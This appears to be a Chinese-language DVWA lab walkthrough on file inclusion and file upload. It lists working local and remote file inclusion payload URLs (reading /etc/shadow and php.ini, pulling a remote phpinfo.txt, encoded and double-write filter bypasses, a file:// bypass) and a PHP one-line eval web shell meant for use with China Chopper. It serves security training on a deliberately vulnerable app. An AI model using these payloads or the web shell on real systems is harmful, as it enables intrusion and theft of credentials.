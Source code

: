 `http://192.168.153.130/dvwa/vulnerabilities/fi/page=/etc/shadow`

2. 远程文件包含利用

`http://192.168.153.130/dvwa/vulnerabilities/fi/page=http://192.168.5.12/phpinfo.txt`

进行编码伪装

`http://192.168.153.130/dvwa/vulnerabilities/fi/page=%68%74%74%70%3a%2f%2f%31%39%32%2e%31%36%38%2e%35%2e%31%32%2f%70%68%70%69%6e%66%6f%2e%74%78%74`

### medium

使用`str_replace`对字符串进行替换

```php
$file=str_replace(array("http://","https://"),"",$file);
$file=str_replace(array("../","..\""),"",$file);
```

`str_replace`极不安全，例如`page=hthttp://tp://192.168.5.12/phpinfo.txt`

1. 本地文件包含利用

`http://192.168.153.130/dvwa/vulnerabilities/fi/page=…/./…/./…/./…/./…/./…/./…/./…/./…/./…/./xampp/htdocs/dvwa/php.ini`

2. 远程文件包含利用

`http://192.168.153.130/dvwa/vulnerabilities/fi/page=htthttp://p://192.168.5.12/phpinfo.txt`

### high

High级别的代码使用了fnmatch函数检查page参数

使用浏览器file协议`http://192.168.153.130/dvwa/vulnerabilities/fi/page=file:///C:/xampp/htdocs/dvwa/php.ini`

### impossible

严格检查了包含文件名称

## File Upload

### low

```php
<?php
    @eval($_POST['apple']);
?>
```

一句话木马，然后用中国菜刀

### medium

对文件类型和大小进行了限制，文件类型为jpeg/png，大小不超过100000B
